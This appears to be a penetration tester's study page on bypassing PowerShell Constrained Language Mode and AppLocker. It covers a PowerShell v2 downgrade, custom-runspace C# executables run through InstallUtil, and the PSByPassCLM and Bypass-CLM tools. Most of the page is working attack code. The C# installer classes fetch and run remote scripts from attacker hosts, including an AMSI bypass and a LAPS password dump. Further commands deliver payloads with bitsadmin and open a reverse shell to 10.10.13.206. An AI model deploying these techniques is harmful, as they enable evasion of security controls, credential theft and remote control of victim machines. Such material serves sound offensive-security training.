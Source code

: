 # You have no Power(Shell) here muahaha

![](../Assets/abraxas-lotr.gif)

Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```

![](../Assets/clm.png)

## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation; //can be found in C:/Windows/Microsoft.NET/Assembly/GAC_MSIL/....
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            // String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/lapstoolkit.ps1') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master





```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
 
namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
 
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.178/amsi.txt') | IEX;";
            String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.178/lapstool.txt') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\windows\\tasks\\output.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            Console.WriteLine("I know your IP Address...");
 
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
            try
            {
                ps.Invoke();
                Console.WriteLine("A*M*S*1 bYP@$S!");
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            ps.AddScript(cmd2);
            try
            {
                ps.Invoke();
                Console.WriteLine("Welcome...Master H@X0r! 13E7!");
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            rs.Close();
        }
    }
}
```

https://github.com/Ezan0x/LigoloAppLockerEvasion